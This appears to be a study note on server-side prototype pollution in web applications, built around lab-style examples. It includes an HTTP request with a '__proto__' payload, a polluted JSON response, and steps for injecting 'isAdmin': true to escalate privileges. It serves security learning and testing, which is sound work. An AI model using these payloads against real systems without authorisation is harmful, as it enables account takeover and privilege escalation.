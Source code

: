 POST or PUT requests submitting JSON data to an app or API are prime candidates for this as it is common for servers to respond with a JSON representation of the new or updated object. You can attempt to pollute the global `Object.prototype` with an arbitrary property:

```js
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```

If vulnerable, the injected property appears in the updated object:

```js
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```

A site may use properties to dynamically generate HTML, resulting in the injected property being rendered in your browser. Once identified that server-side prototype pollution exists, look for potential gadgets to use for an exploit.

>[!info]
>Any feature involving updating user data is worth looking at since they often merging incoming data into an existing object. If you can add properties, it can lead to privilege escalation.

For example, a request may be made that responds with JSON data such as:

```json
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```

Try adding an additional property when sending the request:

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"lNfZLo3RtFk1owo6emrjXqC0pYm8voYR",
"foo":"bar"}
```

Check if the property is reflected. If so, try looking for any interesting properties such as `isAdmin`. If so, try adding it to the sent request and changing the value to `true`. There may be additional security measures in place. 
